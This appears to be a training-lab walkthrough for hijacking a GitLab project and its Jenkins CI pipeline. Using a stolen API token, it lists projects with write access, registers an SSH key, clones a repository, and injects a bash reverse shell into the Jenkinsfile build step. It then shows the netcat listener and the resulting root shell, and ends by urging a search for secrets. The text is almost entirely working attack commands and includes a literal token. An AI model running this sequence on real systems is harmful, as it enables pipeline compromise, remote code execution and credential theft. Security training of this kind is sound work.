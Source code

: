 # First we need to find a project that we can hijack
curl  -H 'Content-Type: application/json' https://gitlab.devsecoops.academy/api/v4/projects?private_token=[STOLEN_TOKEN]

# You can simply open the following link
https://{PLACEHOLDER_LAB_NAME}-gitlab.devsecoops.academy/api/v4/projects/?private_token=SYZ3Xt-tFfdHy6Gpd_xy

# Now you look at github documentation (https://docs.gitlab.com/ee/api/access_requests.html) and look for an access level 40 or above within accessible projects
curl -H 'Content-Type: application/json' https://{PLACEHOLDER_LAB_NAME}-gitlab.devsecoops.academy/api/v4/projects/?private_token=SYZ3Xt-tFfdHy6Gpd_xy | jq '.[] | select( .permissions.project_access > 20  ) | { id, name, permissions, visibility, ssh_url_to_repo  }'


# Project 22 is a good candidate, let's look at latest commit
https://{PLACEHOLDER_LAB_NAME}-gitlab.devsecoops.academy/api/v4/projects/22/repository/commits?private_token=SYZ3Xt-tFfdHy6Gpd_xy
https://{PLACEHOLDER_LAB_NAME}-gitlab.devsecoops.academy/api/v4/projects/22/repository/commits/eac7188a309fa39a9ec2ee837b003c8b69fa0b47/statuses?private_token=SYZ3Xt-tFfdHy6Gpd_xy


# First we need to generate a ssh key
ssh-keygen

# Then we need to add our SSH key to the gitlab user
curl -d '{"title":"my_key","key":"'"$(cat ~/.ssh/id_rsa.pub)"'"}' -H 'Content-Type: application/json' https://{PLACEHOLDER_LAB_NAME}-gitlab.devsecoops.academy/api/v4/user/keys?private_token=SYZ3Xt-tFfdHy6Gpd_xy

# Check your key is now there
curl -H 'Content-Type: application/json' https://{PLACEHOLDER_LAB_NAME}-gitlab.devsecoops.academy/api/v4/user/keys?private_token=SYZ3Xt-tFfdHy6Gpd_xy

# Now we clone the repository
git clone git@{PLACEHOLDER_LAB_NAME}-gitlab.devsecoops.academy:Internal_resources/our-awesome-webapp.git
cd our-awesome-webapp/script
vim Jenkinsfile

# Now let's add your malicious code within the pipeline, add the following line within the build step of the Jenkinsfile
sh 'bash -c "bash -i >& /dev/tcp/{PLACEHOLDER_PRIVATE_IP}/4242 0>&1"'

# Dont forget to listen on your kali workstation
nc -lvp 4242

#If it works, you should see something like this
### connect to [XXXXXX] from [XXXX] [XXXXX] 44632
### bash: cannot set terminal process group (7): Inappropriate ioctl for device
### bash: no job control in this shell
### root@1dd43ae49e1f:/home/jenkins/agent/workspace/Our awesome webapp#

# Then look for secrets !
